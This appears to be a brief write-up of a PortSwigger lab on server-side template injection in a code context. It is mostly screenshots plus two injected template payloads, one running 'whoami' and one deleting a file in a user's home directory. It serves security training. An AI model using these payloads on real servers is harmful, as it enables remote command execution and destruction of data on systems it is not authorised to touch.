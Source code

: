 # Basic server-side template injection (code context)
Lab URL :- 

`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context`

![image](https://user-images.githubusercontent.com/60841283/153759383-08254f52-5d12-4299-bc49-0588d62f782b.png)

## Payload Test

![image](https://user-images.githubusercontent.com/60841283/153757582-7f560739-a5e2-4203-9bbc-52c7951ce0cb.png)

Viewing first name after commenting on a blog post.

![image](https://user-images.githubusercontent.com/60841283/153757617-2d9b282c-ee9c-4f41-be1e-8ee8d9addc69.png)

## Command exec
```html
}}{% import os %}{{os.system('whoami')}}
```
![image](https://user-images.githubusercontent.com/60841283/153757805-d6cb06b5-7697-4fb7-bfcc-c60d39a39c2c.png)

Comment and see the name and SSTI execution

![image](https://user-images.githubusercontent.com/60841283/153757894-7f870b84-d04e-47ba-b463-3bfc876bd4d1.png)

#### Deleting the file
```html
user.first_name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')}}
```

![image](https://user-images.githubusercontent.com/60841283/153758029-ef40a697-ce4d-4a1b-b8cc-3f9002104a0a.png)

Comment and and SSTI executes.

![image](https://user-images.githubusercontent.com/60841283/153758034-070a00c6-e409-461b-89e6-6f82be8af4c4.png)
